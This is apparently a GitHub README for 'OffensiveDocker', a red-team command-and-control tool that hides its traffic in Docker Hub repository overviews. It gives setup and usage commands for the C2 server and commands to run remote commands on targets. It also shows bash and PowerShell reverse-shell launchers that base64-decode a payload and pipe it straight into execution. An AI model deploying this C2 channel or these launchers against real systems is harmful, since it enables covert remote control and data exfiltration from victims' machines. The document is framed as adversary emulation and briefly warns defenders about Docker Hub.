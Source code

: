 # OffensiveDocker by @0xbugatti


OffensiveDocker is a tool designed to turn Docker Hub repository to secure exfiltration and C&amp;C by JSON-based requests . This script allows you to save, show , and read command execution results in addition to execution , effectively enabling my APT Emulation Skills, cloud-based C2 (Command &amp; Control) system.


As Redteamer :
Exfiltrate Data Over hub.docker.com 

As Blue Teamer :
From Tooday Dont Trust hub.docker.com 
![odloogo](imgs/odlogo.png)

# Features
- Execute new commands and append them to the repository.

- Retrieve and display C2 execution history stored in Docker Hub repository overviews.
        
- Encode Data before sent and Decode on display results from previous executions.
    
- reset db to avoid exceeding limits errors
  
- Save execution history into an SQLite database before reset .
    
- Switch between different agent repositories.
    
    
- Automatic repository creation if it doesn't exist.

# Note 
This Is Just POC of the Concept alot of Evasion Techniques could be Implemented but 
I will not disclose the special edition and awaiting that from contributers

# Installation 
```bash
git clone https://github.com/0xBugatti/OffensiveDocker.git
cd OffensiveDocker/
pip install -r requirements.txt
python C2-server.py --user <username> --new --repo <repo> --token <docker_hub_token>

```
# Usage


## Create repos 

```
python C2-Server.py --user <username> --new --repo <repo> --token <docker_hub_token>
```

- `--user` : Docker Hub username
    
- `--repo` : Repository name
    
- `--token` : Docker Hub API token
    
- `--save` : Save all C2 connection data to SQLite and exit
    
- `--read` : Read all C2 connection data and exit
    
- `--new` : Create the repository if it does not exist

## Interactive Mode

Once the script is running, you can use the following commands:

#### Available Commands:

|Command|Description|
|---|---|
|`exec "text"`|Add a new command to be executed|
|`show <ID>`|Retrieve and decode the 'result' field for the given ID|
|`setagent-repo <name>`|Change the current agent repo|
|`read`|Display all C2 connection data in a table|
|`save`|Save all connection data to an SQLite database|
|`help`|Display this help menu|
|`reset`|Reset the repository overview|
|`stop`|Exit the program|

##### Example
```
testit> exec "whoami"
testit> show 1
testit> save
testit> read
testit> stop
```


## Generating a reverse shells

### bash

```bash
python3 shellgen.py --repourl "https://hub.docker.com/v2/repositories/your-user/your-repo" --token "your-docker-token" --mode bash`
```

```bash
echo "YmFzZTY0LWVuY29kZWQtc2NyaXB0" | base64 -d | bash
```

### powershell

```bash
python3 shellgen.py --repourl "https://hub.docker.com/v2/repositories/your-user/your-repo" --token "your-docker-token" --mode powershell`
```
**Example :**



```powershell
([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("YmFzZTY0LWVuY29kZWQtc2NyaXB0"))) | iex
```

## POCs
![image](imgs/repogen.jpg)
![image](imgs/win-revshell.jpg)
![image](imgs/linux-revshell.jpg)
![image](imgs/linux.png)
![image](imgs/AD-Win.png)
c2thedocker.png
## License

This project is licensed under the MIT License.

## Author

Developed by **0xbugatti**

# 🚀 Follow Me  

Stay connected and follow me on my social platforms!  

[![YouTube](https://img.shields.io/badge/YouTube-FF0000?style=for-the-badge&logo=youtube&logoColor=white)](https://www.youtube.com/@0xbugatti)  
[![X (Twitter)](https://img.shields.io/badge/X-000000?style=for-the-badge&logo=twitter&logoColor=white)](https://x.com/0xbugatti)  
[![Medium](https://img.shields.io/badge/Medium-000000?style=for-the-badge&logo=medium&logoColor=white)](https://medium.com/@0xbugatti)  
[![Facebook](https://img.shields.io/badge/Facebook-1877F2?style=for-the-badge&logo=facebook&logoColor=white)](https://www.facebook.com/0xbugatti)  


